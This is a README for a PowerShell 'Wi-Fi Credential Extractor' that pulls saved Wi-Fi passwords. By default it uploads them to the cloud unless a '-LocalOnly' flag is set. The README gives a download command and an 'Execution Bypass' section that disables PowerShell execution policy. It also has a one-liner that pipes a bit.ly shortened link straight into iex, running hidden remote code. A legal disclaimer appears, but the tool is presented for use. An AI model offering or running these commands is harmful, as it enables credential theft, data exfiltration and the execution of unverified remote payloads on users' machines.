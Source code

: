 
# 🔐 **WI-FI CREDENTIAL EXTRACTOR**

![PowerShell](https://img.shields.io/badge/PowerShell-v5.1+-blue.svg)
![License](https://img.shields.io/badge/License-MIT-green.svg)
![Maintainer](https://img.shields.io/badge/Maintainer-techiecyber404-blue)

> **⚠️ Legal Notice**: Only use on networks you own or have explicit permission to test.  
> Unauthorized access to computer networks is illegal.

## 📥 Installation
```powershell
# Download directly
irm https://raw.githubusercontent.com/techiecyber404/WiFi-Credential-Extractor/main/Get-WiFiCredentials.ps1 -OutFile WiFiExtractor.ps1
```

## 🚀 Basic Usage
```powershell
# Run with default options (admin PowerShell required)
.\WiFiExtractor.ps1 -LocalOnly
```

## ⚙️ Parameters
| Parameter       | Description                          |
|-----------------|--------------------------------------|
| `-LocalOnly`    | Disables cloud upload                |
| `-ShowPasswords`| Displays passwords in console        |
| `-OutputPath`   | Custom save location (default: TEMP) |

## 🛡️ Execution Bypass
If blocked by policies:
```powershell
# Method 1: Temporary bypass
Set-ExecutionPolicy Bypass -Scope Process -Force

# Method 2: Direct execution (no save)
irm https://bit.ly/wifi-extractor | iex
```

## 🌟 Features
- Encrypted credential storage
- Ethical use enforcement
- Lightweight (7KB) and fast

## 📜 License
MIT © [Venkatesh K](https://github.com/techiecyber404)  
**GitHub**: [@techiecyber404](https://github.com/techiecyber404)
